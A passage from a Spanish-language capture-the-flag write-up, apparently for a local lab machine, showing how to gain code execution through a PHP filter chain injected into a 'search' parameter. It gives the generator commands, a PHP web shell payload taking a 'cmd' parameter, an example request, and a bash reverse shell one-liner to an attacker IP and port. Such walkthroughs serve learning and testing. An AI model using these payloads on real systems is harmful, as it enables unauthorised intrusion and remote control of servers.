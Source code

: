 ```css
python3 php_filter_chain_generator.py --chain "<?php system('ls -la'); ?>"
```

nos copiamos el resultado y se lo damos al parametro search

![ls](./imagenes/ls.png)

Para verlo asi entramos al codigo fuente y ya podremos ejecutar comandos, el problema es que no nos podemos enviar una reverse shell porque si el comando es muy largo el navegador no lo interpreta:
![long](./imagenes/long.png)

# INTRUSION

Para poder ganar acceso, nos tenemos que "crear" un parametro cmd, para hacerlo tenemos que poner lo siguiente:

```css
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

y para usarlo seria así:

```css
http://172.17.0.2/?cmd=whoami&search={RESULTADO DEL COMANDO}
```

Una vez hecho eso podremos ejecutar comandos con la longitud que queramos y seria mas fácil enviar la reverse shell. Para enviarla sin errores seria asi:

```css
bash -c 'bash -i >%26 /dev/tcp/$IP/$PORT 0>%261'
```
